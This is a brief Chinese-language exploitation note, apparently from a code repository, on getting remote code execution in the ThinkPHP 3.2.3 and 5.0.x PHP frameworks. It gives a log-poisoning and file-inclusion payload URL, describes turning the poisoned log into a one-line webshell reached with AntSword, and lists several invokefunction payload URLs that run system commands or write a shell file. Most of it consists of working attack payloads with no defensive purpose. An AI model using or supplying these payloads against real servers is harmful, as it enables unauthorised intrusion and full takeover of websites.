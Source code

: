 # TinkPHP3.2.3 RCE漏洞利用
- 通过报错判断出框架版本

![image](https://user-images.githubusercontent.com/71583369/154673738-59bda70b-f2e5-4027-96fa-6b9ffe6586fa.png)

- 抓取数据包插入代码使其报错

![image](https://user-images.githubusercontent.com/71583369/154674368-e4991795-61a1-493b-a7f0-cbf4c05dd1af.png)

- 日志存放路径Application/Runtime/Logs/Common，报错信息会存放到日志中。
- 构造payload

```
后面的日期根据实际情况进行修改
http://x.x.x.x/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_14.log
```
- 随后我们写入的代码会被执行

![image](https://user-images.githubusercontent.com/71583369/154675181-0800ca89-82ea-408c-a83e-b80dc2c5cfe3.png)

- 对报错内容进行修改成一句话

![image](https://user-images.githubusercontent.com/71583369/154675381-3fa470fd-91f2-43e2-a2de-915bb4bd44d4.png)

- 使用蚁剑进行连接getshell。

- 参考连接https://0xcreed.jxustctf.top/2021/07/ThinkPHP3-2-x-RCE%E5%A4%8D%E7%8E%B0/

# tinkphp5.0.*漏洞利用
payload
```
http://192.168.2.134/tp5/public/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
```
/thinkphp/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
```
```
/thinkphp/public/?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=1
```
```
/thinkphp/public/?s=index/\think\app/invokefunction&function=system&vars=dir
```
```
/thinkphp/public/?s=index/\think\app/invokefunction&function=system&return_value=&command=dir
```
```
/thinkphp/public/?s=index/\think\app/invokefunction&function=system&vars[0]=dir&vars[1][]=
```
```
/thinkphp/public/index.php?s=index/\think\template\driver\file/write&cacheFile=shell
```
# 参考连接https://forum.90sec.com/t/topic/704
